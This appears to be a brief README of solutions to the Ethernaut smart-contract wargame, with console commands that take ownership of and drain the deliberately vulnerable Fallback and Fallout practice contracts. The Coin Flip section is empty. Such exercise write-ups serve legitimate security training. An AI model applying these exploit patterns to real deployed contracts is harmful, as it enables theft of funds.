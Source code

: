 # Ethernaut - Solutions

## 1. Fallback

```
await contract.contribute({ value: toWei("0.0001") });
await contract.sendTransaction({ value: toWei("0.0001") });
await contract.withdraw();
```


## 2. Fallout

```
await contract.Fal1out({ value: toWei("0.0001") });
await contract.collectAllocations();
```

## 3. Coin Flip

```

```